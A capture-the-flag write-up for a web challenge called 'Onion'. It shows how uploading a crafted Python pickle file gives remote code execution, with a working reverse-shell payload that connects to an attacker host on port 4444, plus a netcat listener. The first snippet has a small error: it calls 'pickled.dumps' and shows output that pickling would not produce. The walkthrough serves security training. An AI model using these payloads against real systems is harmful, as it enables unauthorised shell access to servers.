

<font size='10'>Onion</font>

16<sup>th</sup> May 2024

Prepared By: `Muhammad Saad Akhtar`

Challenge Author(s): `Muhammad Saad Akhtar`

Category: `Web`

Difficulty: <font color='green'>Easy</font>

<br><br>

## Description

- In this challenge, the participants need to analyze the functionality of the web app and then upload a malformed python pickle file to get code execution on the remote host.

## Skills Required

- Information Gathering
- Researching Skills
- A little bit of python know how (otherwise you'll get it with googling)

# Solution

The participants are provided with a URL to access the application.

Upon visiting the URL, we can see a page which says upload a pickled file.


Googling `pickled file`, we see [this](https://docs.python.org/3/library/pickle.html) python module.

According to above source, it is used for serializing and de-serializing a Python object structure.

The page also says, that pickle module is not secure.


Looking for ways to exploit this we see [this](https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/).

As the challenge suggests, we can upload a pickled file and it would unpickle it for us.

We can try playing around with pickle first.

Let's get into a python shell and import `pickle`.


Next we can try pickling our `test_data` variable. This can be achieved with `pickle.dumps`


We can save this in a variable and then unpickle it using `pickle.loads`.



That was just basic working of pickle. Now let's try doing some code execution.

From the exploits-notes link above, we can make an RCE class that runs `id` command on the system using the `os` module.

```python
import os

class RCE:
    def __reduce__(self):
        cmd = ('id')
        return os.system, (cmd,)

pickled = pickled.dumps(RCE())
print(pickled)

# Output
# uid=1000(appuser) gid=1000(appuser) groups=1000(appuser)
```

Great, so it works fine. Now to get RCE on the server, we need to pickle a reverse shell and save it into a file.

Upon uploading the pickled file we'll get the shell.

With following python code, we can generate a pickled file with a python reverse shell.

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('python -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.15",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\'')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    with open('rce.pickle', 'wb+') as f:
        f.write(pickled)
        f.close()
```

Running this would generate a file `rce.pickle`.

Start a `netcat` listener and upload the file on the web.

```bash
┌──(kali㉿kali)-[~/…/unused/onion/src/test]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

Once the file is uploaded, we'll catch the reverse shell.


Read the `flag.txt` from `/`.


### Challenge Flag

flag{1_ju$t_g0t_p1ckl3d_ag4innnn!}